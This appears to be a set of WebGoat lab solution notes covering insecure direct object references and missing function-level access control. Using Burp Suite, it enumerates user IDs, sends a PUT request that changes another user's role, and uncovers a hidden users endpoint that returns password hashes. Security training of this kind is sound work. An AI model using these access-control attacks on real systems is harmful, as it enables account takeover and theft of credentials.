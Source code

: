# Insecure Direct Object References
### 2
username: tom
password: cat

### 3
- Open Burp
- click View Profile
- send to responder
- view response

{
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
}

### 4
guessing: WebGoat/IDOR/profile/2342384

### 5
Intruder - sniper;number
start from: 2342384
then intercept View Profile req and paste 2342388

change to PUT, add "Content-Type: application/json":
{"role":1, "color":"red", "size":"large", "name":"Buffalo Bill", "userId":2342388}

# Missing Function Level Access Control
### 2
Use inspect mode to find
<div class="menu-section hidden-menu-item ui-accordion-content ui-corner-bottom ui-helper-reset ui-widget-content" id="ui-id-6" aria-labelledby="ui-id-5" role="tabpanel" aria-hidden="true" style="display: none; height: 60px;">
	<ul>
		<li><a href="/users">Users</a></li>
		<li><a href="/config">Config</a></li>
	</ul>
</div>
Users
Config

### 3
- open Burp
- get some lessonmenu.mvc GET request
- change GET /WebGoat/users HTTP/1.1
- and add Content-Type: application/json
- you will get hash in response